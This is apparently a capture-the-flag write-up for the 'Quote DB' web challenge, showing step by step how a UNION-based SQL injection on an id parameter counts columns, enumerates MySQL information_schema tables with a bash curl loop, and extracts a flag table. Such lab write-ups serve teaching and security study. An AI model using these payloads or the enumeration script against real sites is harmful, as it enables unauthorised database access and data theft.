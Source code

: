 # Challenge #14 - Quote DB

Category: `web`

## Story

>You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.<br/><br/>
>In this challenge, you have to find the hidden flag. Good luck!

## Solution

This challenge comes with a URL: https://quotedb-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

![The Quote DB homepage](quotedb_homepage.png)

There's practically nothing going on here. There's a quote and an author. There's no way to enter new quotes. Trying various sub-pages like "/admin" or "/add_quote" and variations also turns up nothing. There's no JavaScript, either included or embedded in the page source.

One cool thing you can do is use a website or extension like [BuiltWith](https://builtwith.com/) or [Wappalyzer](https://www.wappalyzer.com/) to profile the website and see what technologies it's using. In this case though, all we find is that the website uses Ubuntu, Apache, GCP and some kind of CDN. No hint on whether there's a database or what kind if so.

### Looking for SQL injection

The only piece of interactivity is this:

```
If you'd like to return to this quote, just click here.
```

That shows us that the page supports an `id` parameter, like `/?id=2`. Maybe this can be exploited for [SQL injection](https://portswigger.net/web-security/sql-injection)?

Let's try a few things:

```
/?id=-1
Quote not found

/?id=1023821083902112038013122103810923821
Quote not found
```

No integer mis-parsing yet.

```
/?id=abcdefg
```

This is different. It responds with HTTP status 500 and an empty body. Maybe the id isn't properly escaped after all.

```
/?id=' OR 1=1
```

Same. Empty response and HTTP status 500. But no database dump, sadly.

```
/?id=1--
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Strangely, this appears to work, and returns quote 1.

What about this? *(I just guessed that the table is called "quotes")*

```
/?id=1 UNION SELECT * FROM quotes
If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Oh! This isn't sanitized away! However, it returns the first quote, presumably because it selects the top result from the query. Let's verify this by using a nonexistent quote id but still selecting from the `quotes` table:

```
/?id=77 UNION SELECT * FROM quotes
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

It works! It returns the first quote, presumably because the main query was something like this

```sql
SELECT *
FROM quotes
WHERE id = <id>
```

And we turned it into

```sql
SELECT *
FROM quotes
WHERE id = 77 UNION SELECT * FROM quotes
```

### Looking for the flag

Now what? We can already look up any row in the `quotes` table. Enumerating it doesn't find anything.

Maybe the flag is in another table. But how do we find out what tables are out there?

It's [possible](https://www.sqltutorial.org/sql-list-all-tables/) in some engines to directly query metadata tables. We don't know exactly what DB this website is using, but let's try a few known metadata table names.

Before we do so though, we need to determine how many columns are in the quotes database. We can't just `SELECT *` from arbitrary tables or the `UNION` would fail as it can't match up the rows. This is pretty simple to do though - just try selecting static values and increasing the number until we get a success.

```
/?id=77 UNION SELECT 1
HTTP Status 500

/?id=77 UNION SELECT 1,2
HTTP Status 500

/?id=77 UNION SELECT 1,2,3
HTTP Status 200
```

That was quick. There are 3 columns, probably the id, quote and author.

Next, let's look for the existence of metadata tables:

```
/?id=77 UNION SELECT 1,2,3 FROM user_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM dba_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM all_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM information_schema.tables
HTTP Status 200
```

Interesting! That tells us we're dealing with [MySQL](https://www.mysql.com/). Now let's try to select some rows from it. You can Google and find [the docs](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-tables-table.html) which describe the available columns.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables
"ALL_PLUGINS" - SYSTEM VIEW
```

Okay, not too helpful. We only get the top row so we need some way of selecting a specific row.

Googling "mysql select specific row" leads to [this StackOverflow answer](https://stackoverflow.com/a/10457494) which explains that the `LIMIT` clause allows specifying an offset. Let's try it.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 2,1
"CHARACTER_SETS" - SYSTEM VIEW

/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 3,1
"CHECK_CONSTRAINTS" - SYSTEM VIEW
```

Cool! It works! Let's quickly enumerate all the tables (see [enumerate_tables.sh](enumerate_tables.sh)):

```sh
#!/usr/bin/env bash

for i in {1..1000}; do
  curl -s 'https://quotedb-web.2021.ctfcompetition.com/?id=77%20UNION%20SELECT%20TABLE_CATALOG,TABLE_NAME,TABLE_TYPE%20FROM%20information_schema.tables%20LIMIT%20'${i}',1' | grep '    "' | grep -o '".*"'
done
```

This takes a while, but it eventually finds us two key tables:

```sh
$ ./enumerate_tables.sh
...
"flag"
"quotes"
^C
```

### Extracting the flag

We don't know exactly how many columns are in the `flag` table but let's just try getting them all:

```
/?id=77 UNION SELECT * FROM flag
HTTP Status 500
```

Oops. Let's try adding more columns.

```
/?id=77 UNION SELECT *,0 FROM flag
HTTP Status 200
```

That succeeds and gives us the flag.

```
CTF{little_bobby_tables_we_call_him}
```








